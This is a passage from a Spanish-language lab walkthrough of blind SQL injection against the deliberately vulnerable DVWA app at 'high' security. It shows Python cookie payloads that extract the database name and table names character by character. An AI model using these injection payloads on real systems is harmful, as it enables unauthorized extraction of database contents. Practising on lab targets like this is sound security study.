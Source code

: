 Lo que hicimos fue eliminar los diccionarios que solo ocupábamos en peticiones POST, pero esta al ser GET, y la vulnerabilidad está en las cookies cambiamos esos valores así:

```py

cookies = {
	'id': "1' AND (SELECT SUBSTRING(database(),%d,1))='%s' -- -" % (position, character),
	'PHPSESSID': "665toq56i3mfultm4gdbktb2os",
	'security': "high"
	}

```

Podemos apreciar que hemos agregado la consulta adaptada a python para fuzzear las posiciones, seguido de los demás valores de la cookie.

Y en esta línea tramitamos y guardamos el resultado de la petición por el método GET, usando las cookies que asignamos.

```py
r = requests.get(main_url, cookies=cookies)
```

En este nivel no es necesario usar lo de hexadecimal, ya que al parecer no se está usando ese filtro.

Al ejecutar el script veremos el nombre de la base de datos:

![database](/assets/images/DVWA-SQLi/SQLiBlind-hard/database.png)

Podemos ver que el nombre es "dvwa".

Después crearemos una consulta que obtenga las tablas de esa base de datos:

`1' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema='dvwa' limit 1)='a' -- -`

Y la adaptamos al script:

```py

cookies = {
	'id': "1' AND (SELECT SUBSTRING(table_name,%d,1) FROM information_schema.tables WHERE table_schema='dvwa' limit 1)='%s' -- -" % (position, character),
	'PHPSESSID': "665toq56i3mfultm4gdbktb2os",
	'security': "high"
	}

```

Y vemos que nos responde el nombre de la primera tabla:
